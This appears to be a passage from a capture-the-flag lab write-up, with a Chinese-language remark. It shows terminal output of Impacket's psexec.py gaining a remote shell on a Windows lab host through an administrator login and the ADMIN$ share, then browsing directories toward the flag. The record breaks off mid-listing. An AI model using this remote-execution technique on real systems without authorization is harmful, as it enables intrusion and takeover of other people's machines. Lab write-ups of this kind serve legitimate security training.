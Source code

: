 ```
root@attackdefense:~# cd /usr/local/bin/
root@attackdefense:/usr/local/bin# psexec.py administrator@10.0.16.244
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.0.16.244.....
[*] Found writable share ADMIN$
[*] Uploading file eqfocLkP.exe
[*] Opening SVCManager on 10.0.16.244.....
[*] Creating service Lqnx on 10.0.16.244.....
[*] Starting service Lqnx.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1457]
(c) 2018 Microsoft Corporation. All rights reserved.

```

flag在`C:\Users\Administrator\Desktop`下：

```
C:\Windows\System32>cd \

C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is 9E32-0E96

 Directory of C:\

11/14/2018  06:56 AM    <DIR>          EFI
05/13/2020  05:58 PM    <DIR>          PerfLogs
10/27/2020  09:59 AM    <DIR>          Program Files
10/27/2020  10:02 AM    <DIR>          Program Files (x86)
10/27/2020  09:57 AM    <DIR>          Users
10/05/2022  11:27 AM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)  15,788,568,576 bytes free

C:\>cd Users

C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is 9E32-0E96

 Directory of C:\Users

10/27/2020  09:57 AM    <DIR>          .
10/27/2020  09:57 AM    <DIR>          ..
10/27/2020  09:44 AM    <DIR>          Administrator
12/12/2018  07:45 AM    <DIR>          Public
10/27/2020  09:57 AM    <DIR>          student
               0 File(s)              0 bytes
               5 Dir(s)  15,788,568,576 bytes free

C:\Users>cd Administrator

C:\Users\Administrator>dir
 Volume in drive C has no label.
 Volume Serial Number is 9E32-0E96

 Directory of C:\Users\Administrator

10/27/2020  09:44 AM    <DIR>          .
10/27/2020  09:44 AM    <DIR>          ..
10/27/2020  09:44 AM    <DIR>          3D Objects
```